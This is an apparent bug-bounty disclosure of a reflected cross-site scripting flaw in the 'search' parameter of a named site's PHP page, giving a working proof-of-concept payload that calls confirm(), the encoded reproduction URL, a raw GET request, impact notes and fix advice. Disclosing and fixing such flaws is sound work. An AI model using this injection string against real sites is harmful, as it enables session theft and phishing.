


## Title
Reflected Cross-Site Scripting (XSS) in "search" Parameter

## Summary
I identified a reflected Cross-Site Scripting (XSS) vulnerability in the `search` parameter of the following endpoint:

## Vulnerable Endpoint
https://kzlabs.com/55.php?search=

## Steps to Reproduce

1. Open the following URL in a browser:

https://kzlabs.com/55.php?search=rajvardha%22%2Bconfirm%28%22RAJVARDHAN%22%29%2B%22

2. Observe that a JavaScript confirmation popup is triggered immediately.

3. This confirms that arbitrary JavaScript supplied via the "search" parameter is executed in the browser.

## Payload Used
rajvardha"+confirm("RAJVARDHAN")+"

# Proof of Concept
## Screenshot 1 — Vulnerable application reflecting the injected payload

## Screenshot 2 — Successful JavaScript execution confirming Reflected XSS

This confirms that arbitrary JavaScript can be executed through unsanitized user input.

http
GET /55.php?search=rajvardha"+confirm("RAJVARDHAN")+" HTTP/1.1
Host: kzlabs.com

## Impact
- Cookie stealing
- Session hijacking
- Phishing attacks
- JavaScript execution in victim browser

## Recommendations for Fix
1. Sanitize all user-controlled input before rendering it in the response.
2. Escape special characters such as:
   `<`, `>`, `"`, `'`, `&`
3. Avoid reflecting unsanitized input directly into HTML or JavaScript contexts.
4. Block dangerous JavaScript functions such as:
   - `alert()`
   - `confirm()`
   - `prompt()`
5. If using PHP, use secure functions such as:
php,htmlspecialchars($input, ENT_QUOTES, 'UTF-8');

